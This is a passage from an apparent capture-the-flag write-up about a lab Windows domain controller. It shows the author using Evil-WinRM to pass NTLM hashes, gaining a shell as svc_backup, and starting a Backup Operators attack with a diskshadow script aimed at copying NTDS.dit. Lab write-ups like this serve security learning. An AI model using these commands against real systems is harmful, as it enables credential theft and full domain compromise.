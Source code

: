 We have both the **Administrator** and **svc_backup** user's NTLM hash. To connect to a Windows machine without knowning the account password we can use the Pass-The-Hash technique which basically just uses the NTLM hash material as authentication. Various tools in the Impacket suite like wmiexec, smbexec and psexec support PTH but here we'll instead connect with Evil-WinRM, an WinRM client that supports PTH along with other nice features like AMSI bypass and upload/download functionality.

Unfortunately, it seems that the Administrator has been changed since the memory dump was taken and we can't connect with the hash we got:

```
snowscan@kali:~$ evil-winrm -u administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62 -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

But the svc_backup credentials hasn't been changed and we can connect with the NTLM hash:

```
snowscan@kali:~$ evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

## Privilege escalation to Administrator - Method #1

The user **svc_backup** is a member of the **Backup Operators** group as shown by the `net users svc_backup` output.

```
Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Backup operators are dangerous because they can create a disk shadow copy and access files in-use by the system. The plan here is to grab a copy of the NTDS.dit file which contains all the Active Directory credentials. For some reason you need an extra space at the end of each line otherwise the diskshadow strips off a character and the command becomes invalid.

```
*Evil-WinRM* PS C:\temp> upload pwn.txt
Info: Uploading pwn.txt to C:\temp\pwn.txt

                                                             
Data: 116 bytes of 116 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\temp> type pwn.txt
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:

```
